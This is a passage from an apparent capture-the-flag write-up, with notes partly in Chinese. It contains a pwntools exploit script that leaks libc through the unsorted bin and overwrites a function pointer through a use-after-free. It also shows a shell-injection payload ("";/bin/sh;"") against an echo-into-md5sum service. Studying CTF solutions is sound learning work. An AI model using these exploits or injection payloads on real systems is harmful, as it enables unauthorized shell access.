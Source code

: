 ```
    p.send(content)


def delete(index, ):
    print p.recvuntil('Your choice :')
    p.sendline('2')
    print p.recvuntil('Index :')
    p.sendline(str(index))
    print p.recvuntil('Success')
    return


def print_(index):
    print p.recvuntil('Your choice :')
    p.sendline('3')
    print p.recvuntil('Index :')
    p.sendline(str(index))
    return
add(0x80,'000000')
pause()
add(0x20,'1111111') # in case of merge with top chunk
delete(0)
add(0x80,'2222')
#leak unsorted bin addr
print_(0)  # 0 or 1
p.recvuntil('2222')
unsorted_bin =  p.recv(4)
unsorted_bin = u32(unsorted_bin)
print 'unsorted_bin: ',hex(unsorted_bin)
libc_base = unsorted_bin -  0x7b0# 0x1b27b0 
print 'libc_base: ', hex(libc_base)

get_flag = 0x8048986 #magic
add(0x20,'3333')
delete(1)
delete(3)
add(0x8,p32(get_flag)) #bug in 0x8048953 ,can control the moonlist[i]->print_moon_content, and exec it
print_(1)
p.interactive()
```

### filesystem
`echo “our_input” | md5sum` our_input表示我们的输入，这个命令会输出我们输入的md5值。
sql注入的`双引号`绕过，`;`可以隔离多条命令
```
echo "";/bin/sh;"" | md5sum
```

出现一个问题就是，不知道为什么写脚本跑的时候要send这个`";/bin/sh;"`才可以getshell，而用上面的double双引号就不行`"";/bin/sh;""`(这个不行)。
可是在shell下进行确是这样的：
